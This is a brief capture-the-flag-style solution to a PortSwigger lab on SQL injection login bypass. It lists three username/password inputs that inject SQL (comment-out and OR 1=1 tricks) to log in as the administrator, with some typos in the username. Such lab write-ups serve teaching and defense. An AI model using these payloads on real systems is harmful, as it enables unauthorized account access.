 # Lab: SQL injection vulnerability allowing login bypass

## Lab's description

This lab contains a SQL injection vulnerability in the login function.

**End gold:** Log in as `administrator` user.

## Solution

Go to My account page and login as adminstrator

Case 1:

`Username: adminstrator
Password: anything' OR 1=1--'`

Case 2:

`Username: adminstrator'--
Password: anything`

Case 3:

`Username: adminstrator' OR 1=1--\n
Password: anything`

**Source:** [Lab: Subverting application logic](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)
